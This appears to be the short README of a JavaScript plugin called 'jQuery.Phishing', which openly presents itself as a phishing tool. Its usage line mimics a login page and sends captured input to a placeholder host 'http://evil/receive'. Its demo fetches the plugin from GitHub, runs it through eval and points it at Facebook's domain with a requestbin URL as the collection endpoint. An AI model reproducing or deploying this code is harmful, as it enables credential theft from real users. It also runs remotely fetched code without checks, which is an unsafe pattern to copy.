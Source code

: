 # jQuery.Phishing
## Usage
```javascript
$.phishing('http://wooyun.org/login','http://evil/receive')
```
## Demo
```javascript
$.get(`https://raw.githubusercontent.com/jackmasa/jQuery.Phishing/master/jQuery.Phishing.js`,c=>{eval(c);$.phishing(`//fb.com`,`http://requestbin.herokuapp.com/1koaluq1 `)});
```
result: [http://requestb.in/1koaluq1?inspect](http://requestb.in/1koaluq1?inspect)
